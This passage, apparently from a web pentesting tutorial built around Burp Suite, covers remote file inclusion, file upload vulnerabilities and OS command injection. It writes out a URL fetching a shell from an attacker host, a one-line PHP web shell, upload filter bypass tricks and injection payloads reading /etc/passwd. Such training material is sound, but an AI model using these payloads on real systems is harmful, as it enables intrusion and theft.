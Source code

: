      ```url
     http://example.com/view?file=http://attacker-site.com/shell.php
     ```

   - This could execute the remote file on the server.

---

## File Upload Vulnerabilities

File upload vulnerabilities occur when applications allow unvalidated file uploads.

### Using Executable Files

1. **Upload a Malicious PHP File**:
   - Prepare a simple PHP shell, such as:

     ```php
     <?php system($_GET['cmd']); ?>
     ```

   - Attempt to upload this file in a file upload form.

2. **Modify File Extension in Burp Suite**:
   - If the application restricts `.php` files, intercept the request in Burp, and try changing `.php` to `.php.jpg`.
   - After upload, access the file:

     ```url
     http://example.com/uploads/shell.php.jpg?cmd=ls
     ```

### Using Non-Executable Files

1. **Upload with Modified Headers**:
   - Change the `Content-Type` header in Burp Suite to bypass filtering.
   - For example, change `application/php` to `image/jpeg` to evade detection.

2. **Exploit Directory Traversal for File Execution**:
   - Upload a file as `.jpg` and access it through directory traversal combined with LFI.

---

## OS Command Injection

Command injection allows executing arbitrary commands on the server by injecting command operators.

### Testing OS Command Injection with Burp Suite

1. **Identify Parameters Susceptible to Injection**:
   - Look for parameters that interact with the system, such as those taking IP addresses.

2. **Modify Requests with OS Commands**:
   - Inject commands like `; whoami` or `| cat /etc/passwd` into the vulnerable parameter in Burp Repeater.
   - Example:

